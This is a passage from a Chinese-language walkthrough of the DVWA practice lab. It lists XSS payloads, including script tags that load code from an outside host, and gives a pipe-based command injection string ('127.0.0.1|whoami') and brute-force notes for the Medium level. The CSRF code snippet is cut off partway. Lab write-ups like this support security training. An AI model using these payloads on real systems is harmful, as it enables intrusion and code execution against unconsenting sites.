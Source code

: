 XSS攻击语句  
  
<script>alert(1)</script>  
  
<svg onload=alert(1)>  
  
<a href=javascript:alert(1)>  
  
<a href='javascript:alert(1)'>aa  
  
<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>  
  
<IMG SRC=http://3w.org/XSS/xss.js/>  
  
<IMG SRC=javascript:alert('XSS')>  
## 二、安全等级：Medium  
### （一）Brute Force 密码爆破  
  
还是和Low一样，都可以进行爆破，不一样的就是密码错误加了两秒的延时，就是速度慢一些，但是仍然可以使用burp进行爆破  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtuibJmv4352DtzlVEtlPRKic0EXVHjwHlWn6Sw9MXyqWwtibZOZceHn1jg/640?wx_fmt=png&from=appmsg "")  
  
image  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDt4SMvmqicmJ59laibUwvA4ocqXdaibMbiaBiaOXia53NEkfpfezZgZdw0UW8Q/640?wx_fmt=png&from=appmsg "")  
  
image  
### （二）Command Injection 命令注入  
  
127.0.0.1|whoami  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtr4u6v8ezurFiaRz8rva3a8Lqh4wFTCdbIOvcg9vdiaNtxZoSeveY3Cicg/640?wx_fmt=png&from=appmsg "")  
  
image  
  
这个等级下只是进行了简单的过滤但是过滤不完全，这里的 | （管道符）仍然可以使用，但是此处的 ;   
和&&  
被过滤掉了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtI6edPibzpHIJwDia7j0icIny4RoYkXzrh4AdD6ic0aiaUkq0WmXa9z7icVVw/640?wx_fmt=png&from=appmsg "")  
  
image  
### （三）CSRF   跨站脚本伪造  
  
这个等级下又加了一层判断  
  
if( stripos(   
  
_SERVER[ 'SERVER_NAME' ]) !== false )  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5IZsDqfQ73QXStXGw1ibficylp9IZVWGDtVxBUGc808wyz69NdeIJh4wPQPpptT1cZic7MnIrYoqg9ejhB6DvdRaQ/640?wx_fmt=png&from=appmsg "")  
  
image  
  